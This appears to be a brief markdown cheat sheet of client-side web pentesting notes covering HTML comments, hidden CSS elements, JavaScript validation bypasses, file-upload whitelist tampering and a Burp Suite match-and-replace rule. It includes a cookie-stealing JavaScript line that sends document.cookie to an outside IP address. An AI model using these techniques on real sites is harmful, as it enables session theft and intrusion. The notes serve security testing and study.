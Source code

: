 # Client Side


## HTML Comment
- ```--!>```

## CSS Hidden Element
- ```display: none;```
- ```display: hidden;```

## Bypass JS Control
- ```function```
- Stealing Cookie
```Javascript
document.write('<img src="http://192.168.8.105/?' + document.cookie + '" />');
```
- Bypass validation with return true
  - Go to page source code
  - Find validation script and copy it 
    - search for ```onsubmit``` 
  - Enable pasting
    - Browser => Console => allow pasting
  - remove ```if clause``` part and paste
```Javascript
function webform_onsubmit () {
return true;
}

```
- Bypass uploading file type restriction
  - Find function of validate file types
    - In source code (javascript), search for error text of uploading wrong file 
  - Add malicious file type to whitelist of this function

## Burp
- Proxy > Options > Match and Replace > Add
  - Type: Response Body
  - Match: ```<!--```
  - Replace: 

